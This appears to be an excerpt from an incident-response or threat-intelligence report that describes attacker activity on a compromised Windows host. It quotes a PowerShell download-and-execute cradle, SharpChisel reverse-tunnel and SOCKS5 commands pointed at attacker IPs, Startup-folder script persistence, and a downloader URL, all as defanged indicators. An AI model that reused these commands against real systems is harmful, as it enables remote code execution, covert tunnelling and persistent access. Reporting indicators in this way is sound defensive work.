

Following the use of browser64.exe, we observed the following command being executed:
powershell.exe iex(new-object System.Net.WebClient).DownloadString('hxxp://23.94.50[.]197:444/index.jsp/deb2b1a127c472229babbb8dc2dca1c2/QPKb49mivezAdai1')

They again attempted to use SharpChisel with no success:
powershell.exe C:\programdata\SharpChisel.exe client 23.95.215[.]100:443 R:8888:127.0.0.1:9999
C:\programdata\SharpChisel.exe client 23.95.215[.]100:443 R:8888:127.0.0.1:9999
C:\programdata\SharpChisel.exe server -p 9999 --socks5

Finally, we observed a persistence mechanism being set using the following commands:
cmd.exe /c Wscript.exe "C:\Users\[REDACTED]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\news.js"
cmd.exe /c "C:\Users\[REDACTED]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\newsblog.js"

We were able to get a copy of newsblog.js, which is a simple VBS downloader that communicates with the following URL:
hxxp://23[.]95[.]215[.]100:8008/index.jsp/7e95a3d753cc4a17793ef9513e030b49/4t2Fg7k6wWRnKgd9